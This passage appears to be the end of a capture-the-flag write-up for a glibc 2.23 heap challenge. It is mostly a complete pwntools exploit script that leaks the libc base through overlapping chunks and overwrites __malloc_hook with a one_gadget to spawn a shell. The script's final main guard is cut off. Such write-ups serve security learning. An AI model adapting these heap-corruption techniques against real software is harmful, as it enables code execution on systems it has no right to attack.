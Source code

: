last step will be triggering a malloc call which is done by just creating a random chunk and a malloc call will be done (our one_gadget will be executed.)

![](https://i.imgur.com/qwTtpI4.png)

> Full exploit : 
```python=
#!/usr/bin/env python3
from pwn import *
import time

context.update(arch="amd64", os="linux", log_level="debug")

p = process("./main_patched")
elf = ELF('./main_patched')
libc = ELF("./libc-2.23.so")

def sl(choice): p.sendlineafter('> ',str(choice))
def alloc(idx,size,data):
    sl('1')
    p.sendlineafter(b'index: ',str(idx))
    p.sendlineafter(b'size: ',str(size))
    p.sendlineafter(b'Content:',data)
def free(idx):
    sl('3')
    p.sendlineafter(b'index: ',str(idx))
def edit(idx,data):
    sl('2')
    p.sendlineafter(b'index: ',str(idx))
    p.sendlineafter(b'Content: ',data)
def show(idx):
    sl('4')
    p.sendlineafter(b'index: ',str(idx))

def main():
    pause()
    alloc(0, 0xf8, "A"*0xf7)
    alloc(1, 0x68, "B"*0x67)
    alloc(2, 0xf8, "C"*0xf7)
    alloc(3, 0x10, "D"*0x9)
    free(0)
    edit(1, b"A"*0x60 + p64(0x170))
    free(2)
    alloc(0, 0xf8, "E"*0xf7)
    show(1)
    p.recvuntil("Content: ")
    libc_base = u64(p.recv(6).ljust(8,b"\x00")) - (libc.sym.main_arena + 88)
    log.success("Libc base @  " + hex(libc_base))
    alloc(4,0x68, "A"*0x10)
    free(1)
    hook = libc_base + (libc.sym["__malloc_hook"] - 0x23)
    one = libc_base + 0xf1247
    print(hex(hook))
    print(hex(one))
    payload = b"A" * 0x13 + p64(one) * 2
    edit(4, p64(hook))
    alloc(5, 0x68, "")
    alloc(6, 0x68, payload)
    p.sendline("1")
    p.sendline("8")
    p.sendline("52")
    p.interactive()

if __name__ == "__main__":
```